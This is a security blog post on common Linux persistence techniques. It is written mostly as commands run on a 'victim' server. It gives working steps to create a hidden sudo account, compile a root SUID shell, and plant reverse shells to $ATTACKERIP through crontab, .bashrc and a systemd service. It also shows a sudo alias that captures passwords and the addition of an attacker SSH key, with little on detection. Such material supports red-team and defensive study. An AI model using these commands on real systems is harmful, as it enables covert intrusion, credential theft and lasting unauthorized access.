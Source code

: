 ```yaml
---
layout: single
title: "Common Linux Persistence Techniques"
excerpt: "The adversary is attempting to keep their foothold.
Persistence refers to strategies used by adversaries to maintain access to systems despite restarts, changing credentials, and other disruptions that may terminate their access. "
date: 2021-11-10 00:22:00 -0000
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: 
categories: linux
permalink: /linux/persistence
tags: [linux, persistence]

---
```


# Common Linux Persistence Techniques


This post will cover a few common linux persistence techniques used by adversary to establish permanent access. This blog assumed that you have basic knowledge of linux OS such as linux service, user privilege, crontab, remote management etc. The adversary is attempting to keep their foothold.
Persistence refers to strategies used by adversaries to maintain access to systems despite restarts, changing credentials, and other disruptions that may terminate their access. 

---
## Creating privilege account

The adversary tends to create a high privilege account to maintain access on the compromised system. They usually create a user with a sudo privilege across the system.

	$ Command: 
	
	victim@server$ sudo useradd -p $(openssl passwd -1 $USERPASS) -s /bin/bash -G sudo $USERNAME
    
## Creating SUID Binary

A binary with its SUID bit set, implying that everything run by the programs will be done with that user's privileges. If the SUID binary is set with root privilege, anyone that run the binary will have access on the system with the root privilege. Below is an example of creating a SUID binary named suid00r.

	$ Command:
	
	victim@server$ tempdir="/var/tmp"
	
	victim@server$ echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $tempdir/suid00r.c
	victim@server$ gcc $tempdir/suid00r.c -o $tempdir/suid00r 2>/dev/null
	victim@server$ rm $tempdir/suid00r.c
	victim@server$ chown root:root $tempdir/suid00r
	victim@server$ chmod 4777 $tempdir/suid00r

## Creating crontab

The crontab file contains a list of tasks that you wish to execute on a regular basis, as well as the name of the command that manages them. Crontab stands for "cron table," as it executes tasks using the cron job scheduler. 

Adversary can create a reverse shell that pointing to their C2 server using crontab upon reboot. Below is a simple example of bash reverse shell as for the PoC.

	$ Command:
	
	victim@server$ echo "@reboot sleep 120 && /bin/bash -l > /dev/tcp/$ATTACKERIP/4444 0<&1 2>&1"

## Creating .bashrc backdoor

A bashrc file is a shell script file that Linux uses when starting up to load items like modules and aliases into user's profile. So, whenever the user login, the .bashrc file will load the reverse shell pointing to the adversary C2 server.

	$ Command:
	
	victim@server$ echo "(setsid bash 1>&/dev/tcp/$ATTACKERIP/5555 0>&1 & ) 2>/dev/null" >> ~/.bashrc

## Creating .bashrc alias

Same as .bashrc backdoor but it leverage linux alias. When we often need to use a single large command several times, we construct an alias for it.
Alias is a shortcut command that performs the same functions as if we typed the entire command. 

As for the PoC, we use `sudo` alias. Whenever the user type sudo command for example "`sudo netstat -plnt`", the sudo alias will load then asking for user's password and dump the plaintext password to the /tmp/dumper directory before the real sudo operation from `/usr/bin/sudo` spawn.

	$ Command:
	
	victim@server$ echo "alias sudo='echo -n "[sudo] password for "\$USER": " && read -r password && echo ""\$password"" >/tmp/dumper && /usr/bin/sudo \$@'" >> ~/.bashrc

## Creating systemd backdoor

For Linux operating systems, Systemd is a system and service manager. It includes capabilities such as parallel launch of system services at boot time, on-demand activation of daemons, and dependency-based service control logic, and is meant to be backwards compatible with SysV init scripts.

As for the PoC, we create `backdoorx` service in /etc/systemd/system/ directory. Whenever the system start and the network is ready, it will established a reverse shell to adversary C2.

	$ Command:
	
	victim@server$ SYSTEMD_NAME='backdoorx'
	
	victim@server$ cat << EOF > /etc/systemd/system/$SYSTEMD_NAME.service
	[Unit]
	After=network-online.target
	[Service]
	Type=simple
	ExecStart=/bin/bash -c "bash -i >& /dev/tcp/$ATTACKERIP/6666 0>&1"
	[Install]
	WantedBy=multi-user.target'
	EOF
	
	victim@server$ systemctl daemon-reload
	victim@server$ systemctl start $SYSTEMD_NAME.service
	victim@server$ systemctl enable $SYSTEMD_NAME.service

## Creating SSH authorized_keys

In SSH, the authorized keys file defines the SSH keys that can be used to login into the user account for whom the file is set up. It's a crucial configuration file since it sets up persistent access through SSH keys.

As for the PoC, we used adversary SSH Public Key that is placed on the server you intend to log in to.

	$ Command:
	
	victim@server$ echo 'ssh-rsa AAAAB3Nza7Y-SNIP-6v6tgj6V5Dt root@C2box' >> ~/.ssh/authorized_keys
	attacker@C2$ ssh victim@server


